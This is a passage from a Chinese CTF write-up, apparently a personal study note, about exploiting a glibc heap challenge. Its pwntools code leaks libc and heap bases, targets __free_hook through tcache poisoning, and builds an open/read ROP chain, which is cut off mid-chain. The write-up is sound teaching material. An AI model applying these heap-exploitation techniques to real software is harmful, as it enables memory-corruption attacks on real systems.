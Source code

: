 ```python
show(7)
rc(0x50)
#计算出libc，使用main_arena的工具
libc_base = uu64(rc(8))-0x1ecbe0
success('libc_base --> %s',hex(libc_base))
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685597272680-c25a1fd1-14e3-4725-a614-71f7b1c0f174.png#averageHue=%23040302&clientId=u5b8e4ff9-0d4c-4&from=paste&height=299&id=u893348df&originHeight=493&originWidth=2442&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=188240&status=done&style=none&taskId=uf34b8568-44c6-4ad5-b121-4a8b1281533&title=&width=1479.9999144583087)
#### 泄露堆地址
```python
#泄露堆指针.指向的tcache的结构
show(0)
rc(8)
heap_base = uu64(rc(8))-0x10
success('heap_base --> %s',hex(heap_base))
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685597355673-2476c939-9b84-44e1-86df-f413f195642b.png#averageHue=%23080706&clientId=u5b8e4ff9-0d4c-4&from=paste&height=525&id=uf1df2a7f&originHeight=867&originWidth=2473&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=438250&status=done&style=none&taskId=ufe75a984-a4ae-4e89-b10c-0e1fc43c0ea&title=&width=1498.7877921602774)
#### 寻找free_hook
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685597411894-851b37d9-b230-46ee-a369-5b04499dc663.png#averageHue=%230b0903&clientId=u5b8e4ff9-0d4c-4&from=paste&height=342&id=u4687bcc2&originHeight=564&originWidth=1254&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=229483&status=done&style=none&taskId=u79ac5549-7a26-412e-ba9b-07e149482cf&title=&width=759.9999560731856)
#### 修改idx=6，即目前第一个tcache的fd和内容--为rop链
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685597498356-e22901af-9bd5-48b6-b455-7f392efe7679.png#averageHue=%23030202&clientId=u5b8e4ff9-0d4c-4&from=paste&height=210&id=u73b74baf&originHeight=347&originWidth=2459&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=178891&status=done&style=none&taskId=uefdeb739-ff2d-42b3-83f5-57554fa1ffc&title=&width=1490.30294416584)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685597637953-e4522246-f889-4a85-902e-c78017545fdb.png#averageHue=%23161412&clientId=u5b8e4ff9-0d4c-4&from=paste&height=701&id=u05b93fc9&originHeight=1156&originWidth=1224&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=269288&status=done&style=none&taskId=uf9b7eb2f-5a4b-4749-b2bc-d44c0e63dc2&title=&width=741.8181389422481)
> **一点迷思迷思迷思迷思！！！：**
> ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685598731875-97df3eab-da9f-43f1-a8b7-ddee9d276974.png#averageHue=%231f1c1a&clientId=u5b8e4ff9-0d4c-4&from=paste&height=522&id=ud7fda63d&originHeight=861&originWidth=1197&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=181957&status=done&style=none&taskId=u81283d43-af0e-4420-b1fa-abeca651648&title=&width=725.4545035244043)
> **为什么都是用heap_base+ad0**
> **因为，tcache就是一个堆，我们泄露出来的，是堆的分配收地址**
> **这是按内存对齐的！！！**
> **而只要我们加ad0，就能到我们想要去的地方，即第7个chunk**

这里利用了csu的gadget<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685599731765-2144869f-095f-49f4-85e6-c933b11c61ab.png#averageHue=%23070604&clientId=u5b8e4ff9-0d4c-4&from=paste&height=216&id=u42ae13f8&originHeight=357&originWidth=1744&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=74432&status=done&style=none&taskId=u302ab0f5-f1b8-481e-a21f-682a0a00461&title=&width=1056.9696358784972)
```python
edit(6,p64(libc_base+0x1eee48) + flat([
        libc_base+0x0000000000025b9b,
        0,
        heap_base+0xad0, #第7个chunk，idx=6
        pop_rdi_ret,
        heap_base+0xad0,
        pop_rsi_ret,
        0,
        pop_rdx_ret,
        0,
        pop_rax_ret,
        2,
        syscall_ret, # open
        pop_rdi_ret,
        3,
        pop_rsi_ret,
        heap_base+0xad0,
        pop_rdx_ret,
        0x30,
        pop_rax_ret,
        0,
        syscall_ret, # read
        pop_rdi_ret,
```